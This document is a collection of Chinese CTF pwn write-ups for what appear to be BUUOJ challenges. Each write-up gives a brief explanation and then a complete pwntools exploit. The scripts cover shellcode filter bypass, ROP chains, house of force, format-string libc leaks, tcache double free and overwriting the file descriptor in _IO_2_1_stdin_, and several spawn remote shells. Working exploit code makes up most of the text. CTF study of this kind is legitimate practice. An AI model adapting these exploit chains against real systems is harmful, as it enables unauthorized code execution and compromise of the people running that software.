

这道题虽然说有一个check函数检查输入的shellcode是否全部都是白名单里面的字符，但实际上我们可以通过开头1个字符为\x00的指令来绕过这个检查，然后写入任意字符。
1 2 3 4 5 6 7 8 9 10 11 12 from pwn import *context.arch = 'amd64' io = remote('node4.buuoj.cn' , 25580 ) sa = lambda x, y: io.sendafter(x, y) if __name__ == '__main__' : sa(b'give me shellcode, plz:\n' , b'\x00\x2f' + asm(shellcraft.amd64.sh())) io.interactive()
一道简单的堆排布问题，错开分配到控制chunk，改函数指针，/bin/sh在程序中已经有了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 from pwn import *context.log_level = 'debug' io = remote('node4.buuoj.cn' , 26355 ) elf = ELF('./pwn' ) sla = lambda x, y: io.sendlineafter(x, y) sa = lambda x, y: io.sendafter(x, y) ru = lambda x: io.recvuntil(x) rud = lambda x: io.recvuntil(x, drop=True ) ita = lambda : io.interactive() def add (size, content ): sla(b'Your choice: ' , b'1' ) sla(b'Please input size: ' , str (size).encode()) sa(b'Please input content: ' , content) def delete (index ): sla(b'Your choice: ' , b'2' ) sla(b'Please input list index: ' , str (index).encode()) def show (index ): sla(b'Your choice: ' , b'3' ) sla(b'Please input list index: ' , str (index).encode()) binsh = 0x602010 add(0x20 , b'a\n' ) add(0x10 , b'a\n' ) delete(0 ) delete(1 ) add(0x30 , b'a\n' ) add(0x10 , p64(binsh) + p64(elf.plt['system' ])) show(0 ) ita()
这道题有一个pthread_create函数创建了一个新的线程，在这个线程中有一个很大的栈溢出。这里我们需要通过对程序内存空间的分析理解本题的利用思路。system函数的方式getshell，因为此时我们已经覆盖了TLS结构体，无法成功调用system函数，而one gadget通常都是使用syscall指令来get shell的，因此没有影响。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 from pwn import *from LibcSearcher import *context.log_level = 'debug' io = remote('node4.buuoj.cn' , 25587 ) elf = ELF('./pwn' ) poprdi = 0x400c03 poprsi_r15 = 0x400c01 leave_ret = 0x400A9B poprbp = 0x400870 gad = 0x400BFA io.sendlineafter(b'How many bytes do you want to send?' , str (0x2000 ).encode()) payload = cyclic(0x28 ) + p64(0 ) + cyclic(4104 - 0x30 ) payload += p64(0 ) payload += p64(0 ) payload += p64(poprdi) payload += p64(elf.got['puts' ]) payload += p64(elf.plt['puts' ]) payload += p64(gad) payload += p64(0 ) payload += p64(1 ) payload += p64(elf.got['read' ]) payload += p64(0x100 ) payload += p64(elf.bss() + 0x400 ) payload += p64(0 ) payload += p64(0x400BE0 ) payload += p64(0 ) * 7 payload += p64(poprbp) payload += p64(elf.bss() + 0x400 ) payload += p64(leave_ret) payload = payload.ljust(0x2000 , b'\x00' ) io.send(payload) io.recvuntil(b'goodbye.\n' ) puts = u64(io.recv(6 ) + b'\x00\x00' ) libc = LibcSearcher('puts' , puts) base = puts - libc.dump('puts' ) system = base + libc.dump('system' ) binsh = base + libc.dump('str_bin_sh' ) payload = p64(base + 0x4f322 ) * 4 io.sendline(payload) io.interactive()
这道题就是考ROP，一个静态编译，能够找到很多的gadget。下面使用的是system('/bin/sh')的方式。首先需要将字符串/bin/sh写到一个地方，通过对程序的逆向分析可以找到read函数的地址。输入完成之后就是调用syscall。尤其需要注意get shell的参数。第一个参数（rdi）保存字符串/bin/sh的地址，第二个参数（rsi）保存字符串sh的二重指针地址 ，注意是二重指针。因为/bin/sh里面已经有sh，所以直接可以偏移5个字符，不过我们传入rsi的值应该是保存有这个偏移5个字节的地址的地址，那么之前在写的时候就需要顺便写一个地址值。然后rdx赋值0即可。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 from pwn import *context.log_level = 'debug' io = remote('node4.buuoj.cn' , 25478 ) poprdi = 0x4006e6 poprsi = 0x4040fe poprdx = 0x449bf5 poprsp = 0x400d22 poprax = 0x449b9c poprbx = 0x4005ee poprcx = 0x400be2 poprdx = 0x449bf5 pushrsp = 0x482997 poprsirbp = 0x40f99e movrdirbp = 0x422c45 syscall = 0x44C177 read = 0x449be0 bss = 0x6BC300 payload = cyclic(0x90 + 8 - 8 * 9 ) payload += p64(poprax ^ 0x6666666666666666 ) payload += p64(0x0 ^ 0x6666666666666666 ) payload += p64(poprdi ^ 0x6666666666666666 ) payload += p64(0x0 ^ 0x6666666666666666 ) payload += p64(poprsi ^ 0x6666666666666666 ) payload += p64(bss ^ 0x6666666666666666 ) payload += p64(poprdx ^ 0x6666666666666666 ) payload += p64(0x100 ^ 0x6666666666666666 ) payload += p64(read ^ 0x6666666666666666 ) ''' payload += p64(poprax ^ 0x6666666666666666) payload += p64(0x2 ^ 0x6666666666666666) payload += p64(poprdi ^ 0x6666666666666666) payload += p64(0xbss ^ 0x6666666666666666) payload += p64(poprsi ^ 0x6666666666666666) payload += p64(0 ^ 0x6666666666666666) payload += p64(poprdx ^ 0x6666666666666666) payload += p64(0 ^ 0x6666666666666666) payload += p64(syscall ^ 0x6666666666666666) payload += p64(0) * 2 ''' payload += p64(poprax ^ 0x6666666666666666 ) payload += p64(0x3b ^ 0x6666666666666666 ) payload += p64(poprdi ^ 0x6666666666666666 ) payload += p64(bss ^ 0x6666666666666666 ) payload += p64(poprsi ^ 0x6666666666666666 ) payload += p64((bss + 8 ) ^ 0x6666666666666666 ) payload += p64(poprdx ^ 0x6666666666666666 ) payload += p64(0 ^ 0x6666666666666666 ) payload += p64(syscall ^ 0x6666666666666666 ) payload = payload.ljust(0x200 , b'\x00' ) io.sendafter(b'Please enter your Password: ' , payload) io.sendline(b'/bin/sh\x00' + p64(bss + 5 ) + p64(0 )) io.interactive()
整数溢出，往scanf.got里面写后门函数地址。
1 2 3 4 5 6 7 8 9 from pwn import *elf = ELF('./wustctf2020_name_your_dog' ) io = remote('node5.buuoj.cn' , 27877 ) io.sendlineafter(b'Name for which?\n>' , b'-7' ) io.sendlineafter(b'Give your name plz: ' , packing.p32(elf.symbols['shell' ])) io.interactive()
从题目就可以看出考的是house of force，由于分配的chunk大小无限制，可分配很大的chunk，这类chunk会通过mmap分配，且会紧靠libc下面分配，由此可获得libc地址。然后在堆分配一个小chunk获取top chunk大小，同时0x50溢出修改top chunk的size，分配超大chunk让top chunk到__malloc_hook，这样就能够在__malloc_hook分配，考虑到内存对齐问题，还需要跳到__realloc_hook进行处理。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 import refrom pwn import *import osdef get_process_pid (name ): pid_list = [] processes = os.popen('ps -ef | grep %s' % name) process_info = processes.read() for i in process_info.split('\n' )[:-1 ]: j = re.split(' +' , i) if j[7 ] == name: pid_list.append(int (j[1 ])) return pid_list[0 ] elf = ELF('./gyctf_2020_force' ) libc = ELF('/root/git_clones/glibc_run/glibc_versions/2.23/x64/lib/libc.so.6' ) io = remote('node5.buuoj.cn' , 29751 ) time.sleep(1 ) io.sendlineafter(b'2:puts\n' , b'1' ) io.sendlineafter(b'size\n' , str (0x200000 ).encode()) io.recvuntil(b'bin addr 0x' ) heap_addr = int (io.recvuntil(b'\n' , drop=True ).decode(), 16 ) print (hex (heap_addr))io.sendlineafter(b'content\n' , b'aaaa' ) libc_addr = heap_addr + 0x200FF0 __malloc_hook = libc_addr + libc.symbols['__malloc_hook' ] realloc = libc_addr + libc.symbols['realloc' ] print ("__malloc_hook: " + hex (__malloc_hook))io.sendlineafter(b'2:puts\n' , b'1' ) io.sendlineafter(b'size\n' , str (0x18 ).encode()) io.recvuntil(b'bin addr 0x' ) heap_addr1 = int (io.recvuntil(b'\n' , drop=True ).decode(), 16 ) print (hex (heap_addr1))top_chunk_size_addr = heap_addr1 + 0x10 io.sendlineafter(b'content\n' , cyclic(0x18 ) + packing.p64(__malloc_hook - top_chunk_size_addr + 0x100 )) io.sendlineafter(b'2:puts\n' , b'1' ) io.sendlineafter(b'size\n' , str (__malloc_hook - top_chunk_size_addr - 0x30 ).encode()) io.sendlineafter(b'content\n' , b'aaaa' ) one_gadgets = [0x45216 , 0x4526a , 0xf02a4 , 0xf1147 ] io.sendlineafter(b'2:puts\n' , b'1' ) io.sendlineafter(b'size\n' , str (0x20 ).encode()) io.sendlineafter(b'content\n' , packing.p64(0 ) + packing.p64(one_gadgets[1 ] + libc_addr) + packing.p64(realloc + 0x10 )) io.sendlineafter(b'2:puts\n' , b'1' ) io.sendlineafter(b'size\n' , str (0x20 ).encode()) io.interactive()
简单栈溢出+shellcode
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 from pwn import *elf = ELF('./wdb_2018_3rd_soEasy' ) io = remote('node5.buuoj.cn' , 27654 ) io.recvuntil(b'Hei,give you a gift->0x' ) shell_addr = int (io.recvuntil(b'\n' , drop=True ).decode(), 16 ) payload = asm(shellcraft.sh()) payload = payload.ljust(0x48 + 4 ) payload += packing.p32(shell_addr) io.sendline(payload) io.interactive()
字符串比较，格式化字符串漏洞直接能给flag读出来
1 2 3 4 5 6 7 8 9 10 from pwn import *elf = ELF('./judgement_mna_2016' ) io = remote('node5.buuoj.cn' , 28122 ) payload = b'%45$s \x00' + packing.p32(elf.symbols['flag' ]) io.sendlineafter(b'Flag judgment system\nInput flag >> ' , payload) io.interactive()
格式化字符串泄露libc基地址，因为这个是带了检查的因此不能直接使用%7$x这样的参数，但是可以通过%c一个个往后泄露，这个是检查不了的，然后借助fastbin dup，use after free之后chunk进入tcache，可以避免fastbin中对于chunk大小的检查，因此可以分配到任意地址去，尝试了__malloc_hook的三个one_gadget发现都不行，因此使用__free_hook来完成利用。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 from pwn import *context.log_level = 'debug' elf = ELF('./ciscn_2019_en_3' ) io = remote('node5.buuoj.cn' , 26164 ) def get_process_pid (name ): pid_list = [] processes = os.popen('ps -ef | grep %s' % name) process_info = processes.read() for i in process_info.split('\n' )[:-1 ]: j = re.split(' +' , i) if j[7 ] == name: pid_list.append(int (j[1 ])) return pid_list[0 ] def add (size, content ): io.sendlineafter(b'Input your choice:' , b'1' ) io.sendlineafter(b'Please input the size of story: \n' , str (size).encode()) io.sendlineafter(b'please inpute the story: \n' , content) def delete (index ): io.sendlineafter(b'Input your choice:' , b'4' ) io.sendlineafter(b'Please input the index:\n' , str (index).encode()) io.sendlineafter(b'What\'s your name?\n' , b'%c%c%c%c%c%c%llx' + packing.p64(0 ) * 2 ) io.recv(6 ) libc_base = int (io.recv(12 ).decode(), 16 ) - 0x3ec680 system = libc_base + 0x4f440 __malloc_hook = libc_base + 0x3ebc30 __free_hook = libc_base + 0x3ed8e8 realloc = libc_base + 0x98c30 print ("libc_base: " + hex (libc_base))for i in range (9 ): add(0x60 , b'a' ) for i in range (7 ): delete(i) delete(7 ) delete(8 ) delete(7 ) for i in range (7 ): add(0x60 , b'a' ) one_gadgets = [0x4f2c5 , 0x4f322 , 0x10a38c ] add(0x60 , packing.p64(__free_hook)) add(0x60 , b'1' ) add(0x60 , b'1' ) add(0x60 , packing.p64(system)) add(0x60 , b'/bin/sh\x00' ) delete(20 ) io.interactive()
略
这是一道比较有意思的题。题目首先初始化过程中打开了flag文件，并将文件描述符设置为666。在本题中，经过理论分析发现，我们实际上可以直接获得shell，但出题人的本意显然不是这样。
由于glibc 2.27对于tcache double free的检查过于宽松，导致我们几乎可以无限制地在tcache上进行double free甚至多重free。因此在本题中，我们可以通过double free的方法释放出一个较大的可以被放入unsorted bin中的chunk，随后通过堆块重叠可将tcache指针修改到_IO_2_1_stdin_的fd字段，将标准输入的文件描述符从0改成666，这样标准输入就相当于重定向到了flag文件中，不过需要注意的是，在主界面菜单选择中，题目使用的是read函数，还是直接从文件描述符0的真标准输入读取，但在bye_bye中的scanf就会使用_IO_2_1_stdin_中的文件描述符，因此最后退出会直接输出flag的内容。
利用流程如下图所示。

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 from pwn import *elf = ELF('./ciscn_final_2' ) io = remote("node5.buuoj.cn" , 27552 ) def get_process_pid (name ): pid_list = [] processes = os.popen('ps -ef | grep %s' % name) process_info = processes.read() for i in process_info.split('\n' )[:-1 ]: j = re.split(' +' , i) if j[7 ] == name: pid_list.append(int (j[1 ])) return pid_list[0 ] def add (kind, value ): io.sendlineafter(b'which command?\n> ' , b'1' ) io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>' , str (kind).encode()) io.sendlineafter(b'your inode number:' , str (value).encode()) def delete (kind ): io.sendlineafter(b'which command?\n> ' , b'2' ) io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>' , str (kind).encode()) def show (kind ): io.sendlineafter(b'which command?\n> ' , b'3' ) io.sendlineafter(b'TYPE:\n1: int\n2: short int\n>' , str (kind).encode()) def quit (content ): io.sendlineafter(b'which command?\n> ' , b'4' ) io.sendlineafter(b'what do you want to say at last? ' , content) add(1 , 0x12345678 ) delete(1 ) add(2 , 0x1234 ) add(2 , 0x1234 ) add(2 , 0x1234 ) add(2 , 0x1234 ) add(2 , 0x1234 ) delete(2 ) add(1 , 0x12345678 ) delete(2 ) show(2 ) io.recvuntil(b'your short type inode number :' ) heap_lsw = int (io.recvuntil(b'\n' , drop=True ).decode(), 10 ) if heap_lsw < 0 : heap_lsw += 65536 print (hex (heap_lsw))add(2 , heap_lsw - 0xC0 ) delete(1 ) add(2 , 0x1234 ) add(2 , 0xB1 ) delete(1 ) for i in range (7 ): add(2 , 0x1234 ) delete(1 ) show(1 ) io.recvuntil(b'your int type inode number :' ) libc_base_lsdw = int (io.recvuntil(b'\n' , drop=True ).decode(), 10 ) if libc_base_lsdw < 0 : libc_base_lsdw += 0x1_0000_0000 libc_base_lsdw -= 0x3ebca0 __free_hook = libc_base_lsdw + 0x3ed8e8 _IO_2_1_stdin_ = libc_base_lsdw + 0x3eba00 print (hex (libc_base_lsdw))add(2 , (_IO_2_1_stdin_ & 0xFFFF ) + 112 ) add(1 , 0x12345678 ) add(1 , 666 ) quit(b'' ) io.interactive()